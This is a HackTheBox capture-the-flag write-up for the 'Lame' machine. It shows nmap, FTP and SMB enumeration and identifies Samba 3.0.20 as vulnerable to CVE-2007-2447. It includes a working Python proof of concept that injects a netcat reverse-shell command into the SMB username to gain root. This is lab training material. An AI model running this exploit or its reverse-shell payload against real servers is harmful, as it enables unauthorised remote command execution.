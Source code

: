 # Lame - HackTheBox
Notes from Lame 10.10.10.3 HTB

## Enumeration
### Nmap
```sh
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.25
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h08m25s, deviation: 2h49m45s, median: 8m23s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-06-16T21:01:35-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### FTP
```sh
>>> ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:onejump): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> exit
?Invalid command
ftp> quit
221 Goodbye.
```
FTP allows anonymous login but there is nothing in there.

### Smbmap
```sh
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
	Disk                                                    Permissions     Comment
	----                                                    -----------     -------
	print$                                                  NO ACCESS       Printer Drivers
	tmp                                                     READ, WRITE     oh noes!
	opt                                                     NO ACCESS
	IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))

```

#### Contents of tmp.
```sh
smb: \> ls
  .                                   D        0  Mon Jun 21 19:48:13 2021
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  .ICE-unix                          DH        0  Mon Jun 21 19:36:57 2021
  vmware-root                        DR        0  Mon Jun 21 19:37:27 2021
  .X11-unix                          DH        0  Mon Jun 21 19:37:23 2021
  .X0-lock                           HR       11  Mon Jun 21 19:37:23 2021
  5563.jsvc_up                        R        0  Mon Jun 21 19:38:00 2021
  vgauthsvclog.txt.0                  R     1600  Mon Jun 21 19:36:55 2021

                7282168 blocks of size 1024. 5386560 blocks available
smb: \>
```

We have access to the "tmp" share but there was nothing usefull in there either.

### Vulnerable samba version
![](images/Pasted%20image%2020210621194445.png)
This version os samba appears to be vulnerable to [CVE 2007-2447.](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
## Exploit
Avoiding the metasploit module that exist for this vuln (OSCP prep and stuff), I found the following PoC in python. [exploit.py](https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py)

### Exploit code
```py
#!/usr/bin/python
# -*- coding: utf-8 -*-

# From : https://github.com/amriunix/cve-2007-2447
# case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

## Flags
The syntax to run the exploit is pretty straight forward, "python <file.py> <RHOST> <RPORT> <LHOST> <LPORT>", set up a nc listener and ready to go, root access.
	
![](images/Pasted%20image%2020210621200345.png)

Box rooted.
